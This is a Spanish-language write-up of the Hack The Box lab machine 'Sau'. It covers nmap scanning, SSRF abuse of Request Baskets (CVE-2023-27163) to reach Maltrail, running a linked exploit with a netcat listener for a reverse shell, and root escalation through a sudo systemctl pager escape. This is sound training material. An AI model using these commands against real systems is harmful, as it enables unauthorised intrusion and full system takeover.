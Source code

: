 ```yaml
---
description: '✍️ Autor: mrh4sh 🔍 Dificultad: Fácil 📅 Fecha de creación: 30/06/2018'
---
```


# Sau

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.11.224
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 190333.png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.11.224
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 190507.png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 22 (SSH)**: El servicio SSH está en ejecución con la versión 8.2p1 de OpenSSH en un sistema Ubuntu. Esta versión es relativamente moderna y es probable que esté actualizada, pero aún es importante revisar posibles vulnerabilidades específicas de esta versión, como debilidades en la configuración del servicio o ataques de fuerza bruta si no se utiliza autenticación de clave pública. El escaneo de las claves del host muestra RSA, ECDSA y ED25519, lo que sugiere que se están utilizando claves modernas, lo que es una buena práctica.
* **Puerto 80 (HTTP)**: El puerto 80 está filtrado, lo que significa que no hay respuesta directa en este puerto desde el escaneo. Podría haber un firewall o una configuración de seguridad que bloquea el tráfico en este puerto, o simplemente podría no estar activo.
* **Puerto 55555 (HTTP)**: Este puerto está abierto y ejecuta un servidor HTTP construido con Golang, como indica la descripción. El título de la página es "Request Baskets" y la solicitud fue redirigida a `/web`, lo que indica que la aplicación web probablemente tenga rutas configuradas para manejar diferentes solicitudes.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,55555 -v 10.10.11.224
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Reviso el puerto 55555.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Mirando la página nos sale la versión por lo que buscamos si tiene un CVE para explotar.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al realizar una búsqueda en Google, se puede identificar que esta versión es vulnerable a una falla de SSRF (Server Side Request Forgery), CVE-2023-27163, que afecta al componente de la API de Request Baskets, específicamente en el endpoint `/api/baskets/{name}`. Esta vulnerabilidad permite a los atacantes realizar solicitudes manipuladas a la API, lo que les da acceso a recursos internos de la red e información sensible.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Enviamos la petición como se nos indica.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Dado que esta versión es vulnerable a SSRF y que el puerto 80 estaba filtrado, lo que nos impedía acceder a él desde el exterior, modificaremos la configuración para redirigir las solicitudes GET hacia el propio localhost del servidor, específicamente al puerto 80. De esta forma, conseguiremos establecer una conexión con los recursos internos del servidor.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Recargamos de nuevo.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Miramos si la versión de **Maltrail** tiene alguna vulnerabilidad por internet.

{% @github-files/github-code-block url="https://github.com/spookier/Maltrail-v0.53-Exploit" %}

Ejecutamos mientras nos ponemos en escucha.

```bash
python3 exploit.py 10.10.14.14 4444 http://10.10.11.224:55555/6ywt1xx/
nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/systemctl/" %}

```bash
sudo /usr/bin/systemctl status trail.service
!/bin/bash
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-21 195946.png" alt=""><figcaption></figcaption></figure>
